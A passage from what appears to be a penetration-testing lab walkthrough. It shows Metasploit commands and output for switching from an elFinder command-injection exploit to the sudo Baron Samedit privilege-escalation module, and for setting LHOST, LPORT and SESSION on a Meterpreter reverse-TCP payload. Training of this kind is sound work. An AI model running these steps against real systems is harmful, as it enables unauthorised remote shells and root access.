 Students need to use the exploit with tag number 2 (in case they used the last search query):

Code: shell

```shell
use 2
```

```
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > use 2

[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
```

Then, students need to see the options of the exploit module using the `show options` command (or `options` alone for short):

Code: shell

```shell
show options
```

```
msf6 exploit(linux/local/sudo_baron_samedit) > show options

Module options (exploit/linux/local/sudo_baron_samedit):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   SESSION                       yes       The session to run this module on.
   WritableDir  /tmp             yes       A directory where you can write files.

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  142.93.43.160    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/local/sudo_baron_samedit) >
```

Three options need to be set by the students, `LHOST`, `LPORT` (since 4444 is already being used by the `elFinder` exploit, thus it must be changed to another port), and `SESSION` (which is 1 in this case):

Code: shell

```shell
set LHOST tun0
set LPORT 9001
set SESSION 1
```

